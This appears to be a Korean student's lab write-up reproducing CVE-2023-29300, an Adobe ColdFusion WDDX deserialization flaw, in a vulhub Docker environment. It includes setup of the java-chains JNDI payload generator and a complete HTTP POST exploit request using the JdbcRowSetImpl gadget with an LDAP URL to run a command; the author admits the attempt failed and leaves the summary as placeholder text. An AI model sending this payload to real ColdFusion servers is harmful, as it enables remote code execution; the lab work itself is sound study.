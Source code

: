 # Adobe ColdFusion XML 역직렬화로 인한 RCE (CVE-2023-29300)
| WHS 3기 이유진

## 개요
Adobe ColdFusion은 JJ Allaire가 1995년에 만든 상용 고속 웹 애플리케이션 개발 컴퓨팅 플랫폼이다.
Adobe ColdFusion 2018 업데이트 16(및 이전 버전), 2021 업데이트 6(및 이전 버전) 및 2023.0.0.330468(및 이전 버전)은 신뢰할 수 없는 데이터의 역직렬화 취약점의 영향을 받습니다. 공격자는 임의의 세터 함수를 호출하여 임의의 명령을 실행할 수 있다.

## 환경 구축
docker compose up -d 를 실행하여 테스트 환경을 실행
your-ip:8000 에 접속하여 drupal 설치

### docker-compose.yml
```yml
services:
  coldfusion:
    image: vulhub/coldfusion:2018.0.15
    ports:
      - "8500:8500"
      - "5005:5005"
    environment:
      - password=vulhub
      - acceptEULA=YES
```

### 테스트 환경 실행
```
docker compose up -d
```

### `http://localhost:8500/` 에 접속한 page 화면

![page](./page.png)

### `http://your-ip:8500/CFIDE/administrator/index.cfm` 에 접속하여 `vulhub`으로 로그인
![page2](./page2.png)
you can install the Adobe ColdFusion successfully.

### java Chain 설치하기
```
git clone https://github.com/vulhub/java-chains
cd java-chains

 docker run -d \
  --name java-chains \
  --restart=always \
  -p 8011:8011 \
  -p 58080:58080 \
  -p 50389:50389 \
  -p 50388:50388 \
  -p 3308:3308 \
  -p 13999:13999 \
  -p 50000:50000 \
  -p 11527:11527 \
  -e CHAINS_AUTH=true \
  -e CHAINS_PASS= \
  javachains/javachains:latest

  docker logs java-chains | grep -i password # 비밀번호 확인하기
```
![javaChain](./javaChain.png)
http://localhost:8011/ 로 java chain 사용 가능 !
실행 명령어를 치고 `generate`를 누르면 LDAP URL 즉, payload url이 생성이된다.
- ex) `ldap://127.0.0.1:50389/f29660`

## PoC 
ColdFusion 서버에서 임의 코드를 실행할 수 있는 유효한 가젯을 찾는다.
- 가장 일반적인 가젯은 com.sun.rowset.JdbcRowSetImplJNDI 주입을 사용하여 명령을 실행

![javaChain](./javaChain.png)
`touch /tmp/success` 를 넣은 url을 만들어 주고 post 요청을 보낸다.

```
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/filemanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: 127.0.0.1:8500
Content-Length: 270
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close

argumentCollection=<wddxPacket version='1.0'><header/><data><struct type='Ecom.sun.rowset.JdbcRowSetImplE'><var name='dataSourceName'><string>ldap://127.0.0.1:50389/597b9f</string></var><var name='autoCommit'><boolean value='true'/></var></struct></data></wddxPacket>
```

| __LDAP 연결에서 문제가 있어 9시간 도전끝에.. 이해만 하고 넘어가기로 결정 하고 새로운 주제로 진행하였습니다.__ [CVE-2024-4367](../../pdfjs/CVE-2024-4367/)


## 정리
~한 취약점이다. ~한 조치가 필요하다.

## 출처
https://github.com/vulhub/vulhub/tree/master/coldfusion/CVE-2023-29300
